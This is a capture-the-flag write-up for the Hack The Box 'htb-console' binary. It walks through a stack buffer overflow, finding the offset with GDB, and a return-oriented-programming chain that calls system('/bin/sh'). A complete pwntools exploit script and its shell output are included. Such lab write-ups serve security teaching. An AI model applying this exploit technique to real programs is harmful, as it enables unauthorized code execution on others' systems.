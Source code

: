 # htb-console

## Static Analysis
### checksec:
```
└─$ pwn checksec --file htb-console 
[*] '/home/kali/htb/track/binexp/htbconsole/htb-console'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### main:
```c
void main(void)

{
  char user_input [16];
  
  set_io_buffers();
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(user_input,0x10,stdin);
    commands(user_input);
    memset(user_input,0,0x10);
  } while( true );
}
```

### commands:
```c
void commands(char *param_1)

{
  int iVar1;
  char local_18 [16];
  
  iVar1 = strcmp(param_1,"id\n");
  if (iVar1 == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");
  }
  else {
    iVar1 = strcmp(param_1,"dir\n");
    if (iVar1 == 0) {
      puts("/home/HTB");
    }
    else {
      iVar1 = strcmp(param_1,"flag\n");
      if (iVar1 == 0) {
        printf("Enter flag: ");
        fgets(local_18,0x30,stdin);                         // [1]
        puts("Whoops, wrong flag!");
      }
      else {
        iVar1 = strcmp(param_1,"hof\n");
        if (iVar1 == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&DAT_004040b0,10,stdin);                    // [3]
          puts("See you on HoF soon! :)");
        }
        else {
          iVar1 = strcmp(param_1,"ls\n");
          if (iVar1 == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");
          }
          else {
            iVar1 = strcmp(param_1,"date\n");
            if (iVar1 == 0) {
              system("date");                            // [2]
            }
            else {
              puts("Unrecognized command.");
            }
          }
        }
      }
    }
  }
  return;
}
```
## Vulnerability

- The fgets at `[1]` reads in more input than the size of the buffer that it is reading in to. This would result in a stack-based buffer overflow and potential overwriting of `rip`, allowing us control of the program.

## Dynamic Analysis
```bash
└─$ msf-pattern_create -l 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```
### [test.py](./test.py):
```python
io = start()

io.sendlineafter(b">> ", b"flag"); #flag command

pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"

io.sendlineafter(b"flag: ", pattern); #send pattern

io.interactive()

```
After running this script using `test.py LOCAL GDB`, another shell window opens with GDB output for the binary.

### GDB output:
```bash
Temporary breakpoint 1, 0x00000000004010b0 in ?? ()
(gdb) 
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401396 in ?? ()
(gdb) i r
rax            0x14                20
rbx            0x7fff60058e38      140734804364856
rcx            0x7fb53d620190      140416395641232
rdx            0x1                 1
rsi            0x1                 1
rdi            0x7fb53d6fca10      140416396544528
rbp            0x3761413661413561  0x3761413661413561
...[SNIP]...                  
```
The `i r` (info registers) command after the segmentation fault in GDB shows the contents of the registers at that point of execution, and looks like the hexadecimal value of the ascii characters used in the pattern are currently sitting in `rbp`.

The offset of the part of the pattern that is inside that buffer can be checked by using `msf-pattern_offset`:

```bash
└─$ msf-pattern_offset -q 0x3761413661413561
[*] Exact match at offset 16
```
## Exploitation
Due to the size of the allowed input vs the size of the buffer (16) + 8 bytes to overwrite `rbp`, there are only 24 bytes to fit an assembly payload into. However, as we noticed NX is enabled, we cannot execute instruction from the stack.

There are however other methods that can be used, such as Return-Oriented Programming to use parts of the program that already exist to simply execute `/bin/sh`.

An interesting candidate for this is the `system` function at `[2]`. If `/bin/sh` could be used as a parameter for `system` instead of `date`, this would cause the program to create a new shell session.

Due to the [x86_64 calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#List_of_x86_calling_conventions), `system` would take its parameter from `rdi` when called.


### Strategy:

- put "`/bin/sh`" in `&DAT_004040b0` by using the console `hof` command at marker `[3]` of [commands](#commands)
  
- use `ropper` to find a rop gadget to `pop rdi`:

```txt
└─$ ropper -f htb-console --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: htb-console
0x0000000000401473: pop rdi; ret; 
```
- Find the location of `system()` used in the [commands](#commands) function at marker `[2]` in Ghidra:
```
00401381 e8 ba fc        CALL       <EXTERNAL>::system
```

- then call `system` at `00401381`  using the contents of `rdi`

So a payload for the above strategy would need:

- put string in data buffer
- point to rop gadget
- point to data buffer for `pop rdi` instruction of gadget
- point to `system` for `ret` instruction of gadget

### Final exploit [solution.py](./solution.py):
```python
io = start()
### Adding shell path to hof data buffer:
io.sendlineafter(b">> ", b"hof");
shellpath = b"/bin/sh";
io.sendlineafter(b"name: ", shellpath);

### Sending payload to flag to execute shell path with system:
io.sendlineafter(b">> ", b"flag");
padding = b"A"*(16+8)
rdi = p64(0x401473,endian="little"); #0x0000000000401473: pop rdi; ret; 
databuff = p64(0x4040b0,endian="little"); #address of DAT buffer from fgets(&DAT_004040b0,10,stdin);
system = p64(0x401381,endian="little"); #"CALL system" instruction from system("date");


payload = padding + rdi + databuff + system;
io.sendlineafter(b"flag: ", payload);

io.interactive()
```

### Result:
```bash
└─$ ./solution.py LOCAL
[*] '/home/kali/htb/track/binexp/htbconsole/htb-console'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/kali/htb/track/binexp/htbconsole/htb-console': pid 1379324
b'/bin/sh'
b'shellpath sent.'
b'AAAAAAAAAAAAAAAAAAAAAAAAs\x14@\x00\x00\x00\x00\x00\xb0@@\x00\x00\x00\x00\x00\x81\x13@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
Whoops, wrong flag!
$ ls
 core   htb-console  'HTB Console.zip'     solution.py
```